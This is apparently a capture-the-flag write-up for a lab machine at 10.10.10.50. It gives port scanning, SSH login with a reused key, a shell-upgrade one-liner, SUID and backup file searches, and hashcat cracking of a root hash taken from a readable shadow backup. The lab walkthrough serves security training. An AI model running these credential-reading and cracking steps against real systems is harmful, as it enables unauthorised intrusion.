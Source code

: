 * [Recon-Enumeration](#recon-enumeration)
* [Exploit](#exploit)
* [Privesc](#privesc)
* [Discoveries](#discoveries)

## Recon-Enumeration  
sudo masscan -p1-65535 10.10.10.50 -e tun0 --rate=1000  
![alt text](./img/guard01.PNG?raw=true)  

nmap -A -p 22 10.10.10.50  
![alt text](./img/guard02.PNG?raw=true)  

## Exploit  
Since we have another ssh port, let’s try to connect it with the same command from the MARKUP machine
ssh daniel@10.10.10.50 -i id_rsa_daniel  
![alt text](./img/guard03.PNG?raw=true)  
  
HABEMUS SHELL \o/
BUT, if we try to user the auto-complete from the shell or even read the user.txt flag we have problems…  
![alt text](./img/guard04.PNG?raw=true)  

However this is easy, just run the following command:  
python3 -c 'import pty;pty.spawn("/bin/bash")'  
![alt text](./img/guard05.PNG?raw=true)  

## Privesc  
Here our user can run sudo commands  
![alt text](./img/guard06.PNG?raw=true)  

Let’s search for files with the S permission
find / -perm -u=s 2>/dev/null  
![alt text](./img/guard07.PNG?raw=true)  
  
Nothing really useful

Let’s search some backups folders  
find / -name \*backup\* 2>/dev/null  
![alt text](./img/guard08.PNG?raw=true)  

Ok, that /var/backups can be useful  
![alt text](./img/guard09.PNG?raw=true)  

Wow, shadow? And readable? Ok….  
![alt text](./img/guard10.PNG?raw=true)  

Now we copy the root hash to a hash.txt file and use hashcat to break it  
hashcat -m 1800 -o cracked hash.txt ~/wordlists/rockyou.txt  
![alt text](./img/guard11.PNG?raw=true)  

Now let’s try to log as root  
![alt text](./img/guard12.PNG?raw=true)  

Go to the /root folder and get the flag

## Discoveries  
